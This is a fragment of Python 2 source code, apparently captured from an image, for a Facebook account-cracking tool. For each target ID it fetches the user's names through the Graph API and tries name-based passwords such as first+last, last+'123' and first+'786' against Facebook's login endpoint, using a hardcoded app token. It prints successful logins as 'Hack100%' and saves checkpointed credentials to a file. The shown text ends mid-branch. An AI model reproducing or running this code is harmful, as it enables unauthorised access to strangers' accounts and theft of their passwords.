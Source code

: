 			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:Aziz_420
		try:													
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + b['last_name']												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q:												
				print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'											
				print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mNama \x1b[1;91m    : \x1b[1;91m' + b['name']											
				print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user											
				print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass1 + '\n'											
				oks.append(user+pass1)											
			else:												
				if 'www.facebook.com' in q["error_msg"]:											
					print '\x1b[1;95m[  ✖ ] \x1b[1;95mCeckpoint'										
					print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mNama \x1b[1;95m    : \x1b[1;95m' + b['name']										
					print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mID \x1b[1;95m      : \x1b[1;95m' + user										
					print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mPassword \x1b[1;95m: \x1b[1;95m' + pass1 + '\n'										
					cek = open("out/super_cp.txt", "a")										
					cek.write("ID:" +user+ " Pw:" +pass1+"\n")										
					cek.close()										
					cekpoint.append(user+pass1)										
				else:											
					pass2 = b['last_name']+'123'										
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")										
					q = json.load(data)										
					if 'access_token' in q:										
						print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'								
						print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mNama \x1b[1;91m    : \x1b[1;91m' + b['name']									
						print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user									
						print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass2 + '\n'									
						oks.append(user+pass2)									
					else:										
						if 'www.facebook.com' in q["error_msg"]:									
							print '\x1b[1;95m[  ✖ ] \x1b[1;95mCeckpoint'								
							print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mNama \x1b[1;95m    : \x1b[1;95m' + b['name']								
							print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mID \x1b[1;95m      : \x1b[1;95m' + user								
							print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mPassword \x1b[1;95m: \x1b[1;95m' + pass2 + '\n'								
							cek = open("out/super_cp.txt", "a")								
							cek.write("ID:" +user+ " Pw:" +pass2+"\n")								
							cek.close()								
							cekpoint.append(user+pass2)								
						else:									
							pass3 = b['first_name']+'786'								
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")								
							q = json.load(data)								
							if 'access_token' in q:								
								print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'						
								print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mNama \x1b[1;91m    : \x1b[1;91m' + b['name']							
								print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user							